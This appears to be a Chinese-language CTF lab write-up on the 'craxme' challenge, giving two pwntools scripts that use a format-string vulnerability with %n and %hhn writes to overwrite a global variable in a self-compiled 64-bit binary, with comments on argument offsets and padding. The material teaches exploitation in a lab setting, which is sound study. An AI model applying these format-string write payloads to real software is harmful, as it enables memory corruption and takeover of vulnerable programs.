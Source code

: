 ```python
```

题目中给的是32位的程序，自己编了个64位的程序，64位程序的利用稍微有点不一样

修改一个字节：

![image-20220823104108891](/assets/img/2022/image-20220823104108891.png)

```python
from pwn import *


r = process('./craxme2')

r.recvuntil('Give me magic :')
magic = 0x601064
# buf刚好在栈顶，也就是printf的第7个参数，但是64位程序中，地址经常不到8字节，就会用null byte，导致截断string。所以64位程序利用时，要把格式化字符串放前面，目标地址放后面。
# 这里把目标地址padding到printf的第17个参数，也就是%16$。稍微算下字符串长度就可以知道，先padding到0x50，然后加上目标地址
p = ("%" + str(0xda) + "c" + "%16$n").ljust(0x50, "a")
p += p64(magic)
r.sendline(p)

r.interactive()
```

修改四个字节

```python
from pwn import *


r = process('./craxme2')
raw_input()
r.recvuntil('Give me magic :')
magic = 0x601064  # target: 0xfaceb00c
p = "%" + str(0x0c) + "c" + "%16$hhn"
p += "%" + str(0xb0 - 0x0c) + "c" + "%17$hhn"  # 第二个目标值是0xb0，上一波已经打印的字符数是0x0c，所以这次打印0xb0-0x0c个字符，这样第18个参数处（%17$）的值就是0xb0。
# 这里要注意的是，减去上一波的值，这个值指的是已经打印在屏幕上的字符数，所以是0x0c，而不是p这个字符串的长度，意思就是"%16$hhn"这一段是不计算在内的。显然这是废话，但是还是写一下。。
p += "%" + str(0xce - 0xb0) + "c" + "%18$hhn"
p += "%" + str(0xfa - 0xce) + "c" + "%19$hhn"
p = p.ljust(0x50, "a")
p += p64(magic)
p += p64(magic+1)
p += p64(magic+2)
p += p64(magic+3)
r.sendline(p)

r.interactive()
```



# lab9
